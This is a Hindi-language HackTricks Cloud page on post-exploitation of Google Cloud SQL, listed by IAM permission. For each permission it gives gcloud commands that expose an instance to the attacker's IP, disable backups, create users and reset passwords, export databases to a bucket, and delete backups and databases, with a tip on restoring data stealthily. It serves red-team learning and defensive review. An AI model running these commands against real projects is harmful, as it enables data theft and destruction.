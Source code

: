 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

डेटाबेस से कनेक्ट करने के लिए आपको **बस डेटाबेस पोर्ट तक पहुंच की आवश्यकता है** और **उपयोगकर्ता नाम** और **पासवर्ड** जानने की आवश्यकता है, कोई IAM आवश्यकताएँ नहीं हैं। इसलिए, एक आसान तरीका है कि यदि डेटाबेस का एक सार्वजनिक IP पता है, तो अनुमत नेटवर्क को अपडेट करें और **अपना खुद का IP पता इसे एक्सेस करने की अनुमति दें**।
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
यह भी संभव है कि **`--no-backup`** का उपयोग करके **डेटाबेस के बैकअप को बाधित** किया जा सके।

चूंकि ये आवश्यकताएँ हैं, मैं पूरी तरह से सुनिश्चित नहीं हूँ कि **`cloudsql.instances.connect`** और **`cloudsql.instances.login`** के लिए अनुमतियाँ क्या हैं। यदि आप जानते हैं तो एक PR भेजें!

### `cloudsql.users.list`

डेटाबेस के **सभी उपयोगकर्ताओं की सूची** प्राप्त करें:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

यह अनुमति **डेटाबेस के अंदर एक नया उपयोगकर्ता बनाने** की अनुमति देती है:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

यह अनुमति **डेटाबेस के अंदर उपयोगकर्ता को अपडेट करने** की अनुमति देती है। उदाहरण के लिए, आप इसका पासवर्ड बदल सकते हैं:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

बैकअप में **पुरानी संवेदनशील जानकारी** हो सकती है, इसलिए उन्हें चेक करना दिलचस्प है।\
**एक बैकअप को** एक डेटाबेस के अंदर पुनर्स्थापित करें:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
इसे अधिक छिपे हुए तरीके से करने के लिए, एक नया SQL उदाहरण बनाना और वहां डेटा पुनर्प्राप्त करना अनुशंसित है, बजाय वर्तमान में चल रहे डेटाबेस में।

### `cloudsql.backupRuns.delete`

यह अनुमति बैकअप को हटाने की अनुमति देती है:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**एक डेटाबेस का निर्यात करें** ताकि आप इसे वहां से एक्सेस कर सकें:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**क्लाउड स्टोरेज बकेट से एक डेटाबेस आयात करें** (ओवरराइट):
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

db instance से एक डेटाबेस हटाएं:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
